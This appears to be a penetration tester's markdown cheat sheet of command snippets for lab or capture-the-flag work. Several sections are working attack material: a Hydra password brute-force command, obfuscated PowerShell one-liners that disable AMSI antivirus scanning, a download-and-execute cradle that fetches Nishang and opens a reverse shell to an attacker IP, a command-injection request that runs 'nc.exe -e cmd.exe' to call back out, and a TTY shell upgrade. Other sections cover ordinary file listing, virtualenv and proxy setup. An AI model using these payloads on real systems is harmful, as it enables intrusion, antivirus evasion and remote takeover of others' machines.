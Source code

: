 ```yaml
---
tags:
- training material
created: 2020-01-01
lastmod: 2020-01-01
published: 2020-01-01
image: 
description: 
---
```


>[!code]- Recursively...
>###### Cat files
>```powershell
>#All
>find . -type f -exec cat {} + 2>/dev/null
># Non-binary files only
>find . -type f -exec sh -c 'file --mime {} | grep -vq "charset=binary" && cat {}' \;
># Output filenames too
>find . -type f -exec sh -c 'file --mime {} | grep -vq "charset=binary" && echo "=== {} ===" && cat {}' \;
>```
>###### Ls...
>```powershell
># Files
>ls -alR 2>/dev/null
>dir /S
>gci -recurse
>
># Directories
>gci -path "C:\" -directory -recurse -erroraction silentlycontinue
>```
>###### Find
>```powershell
>Get-ChildItem -Path "C:\" -Filter "local.txt" -Recurse -ErrorAction SilentlyContinue
>```

>[!code]- Brute force login
>###### Hydra
>```powershell
>hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
>```

>[!code]- Virtual python environment
>Must use a verson of virtualenv <= 20.21.1 as [later versions don't support python2 virtual environments](https://stackoverflow.com/questions/76380381/create-virtualenv-for-python-2-7-with-python-3-10).
>
>```powershell
># Create Python2 virtualenv (perhaps in folder of python script)
>virtualenv -p /usr/bin/python2 ./virtualenvs/2/env
>
># Create Python3 virtualenv
>virtualenv ./virtualenvs/3/env
>
># Activate virtualenv
>source ./virtualenvs/2/bin/activate
>
># Deactivate
>deactivate
>```

>[!code]- TTY shell
>
>```powershell
>python -c 'import pty;pty.spawn("/bin/bash")'
>
>ctrl+z
>stty raw -echo; fg
>
>export TERM=xterm-256color
>```

>[!code]- Bypass AMSI
>###### Not checked as working
>```powershell
>sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
>```
>Or
>```
>S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
>```

>[!code]- PowerShell encoded reverse shell
>###### Setup listener to server nishang-ps-rev.ps1 (6666) & catch the reverse shell (5555)
>###### Encode a payload [via CyberChef](https://cyberchef.io/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%2B/%3D')&input=SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8vMTAuMTAuWC5ZL05pc2hhbmctSW52b2tlLVBvd2VyU2hlbGxUY3AucHMxIik7IEludm9rZS1Qb3dlclNoZWxsVGNwIC1SZXZlcnNlIC1JUEFkZHJlc3MgMTAuMTAuWC5ZIC1Qb3J0IDEwMDA7IFdyaXRlLUhvc3QgIkJ1YmJ6Ig)
>```powershell
>IEX (New-Object Net.WebClient).DownloadString("http://10.10.X.Y/Nishang-Invoke-PowerShellTcp.ps1"); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.X.Y -Port 1000; Write-Host "Bubbz"
>```
>###### Execute the payload
>```powershell
>powershell -enc SQBFAF...BoAGUAaABlACIA
>```

>[!code]- Edit environmental PATH variable
>###### Windows
>```powershell
># Execute cmd and PS commands
>set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
>
>set PATH=%SystemRoot%\system32;%SystemRoot%;
>```

>[!code]- Auto URL-encode curl requests
>###### `-G --dataurlencode`
>```powershell
># General structure
>curl -G --data-urlencode `<parameter>=<parameter value>`  `<web address>`
>
># Example
>curl -G --data-urlencode '0=nc.exe -e cmd.exe 192.168.45.211 445' http://192.168.120.189:8080/commander.php
>
># Which is equivalent to
>http://192.168.120.189:8080/commander.php?0=nc.exe%20-e%20cmd.exe%20192.168.45.211%20445
>```

>[!code]- Paste a multi-line string into a file with EOF
>###### Linux
>Where you type the first line, paste in the multi-line string, then type EOF
>
>![Pasted image 20241211063448](Images/Pasted%20image%2020241211063448.png)

>[!code]- Route traffic through a proxy (Burp)
>###### Curl
>```powershell
># /etc/proxychains4.conf
>http 127.0.0.1 8080
># ----
>proxychains curl http://172.168.16.3:80
>```
>###### Nmap
>```powershell
># Not all Nmap features support the --proxies command
>nmap --proxies http://127.0.0.1:8080 SERVER_IP -p PORT -Pn -sC
>
>proxychains nmap # nmap commands
>```
>###### Metasploit
>```powershell
># Set a proxy for any exploit
># (with an exploit selected)
>set PROXIES HTTP:127.0.0.1:8080
>```